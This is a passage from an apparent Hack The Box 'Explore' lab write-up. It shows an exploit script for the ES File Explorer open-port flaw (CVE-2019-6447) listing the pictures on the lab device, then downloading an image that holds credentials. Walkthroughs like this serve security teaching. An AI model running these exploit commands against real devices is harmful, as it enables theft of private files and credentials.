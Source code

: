 ```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

Next, we will download the creds.jpg file and convert the downloaded out.dat file into creds.jpg

```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg           1 ⨯

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
                                                                                             
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ mv out.dat creds.jpg 
```

Opening the image, we realize that the image file contains a set of credentials.

![Credentials](https://github.com/joelczk/writeups/blob/main/HTB/Images/Explore/credentials.png?raw=true)
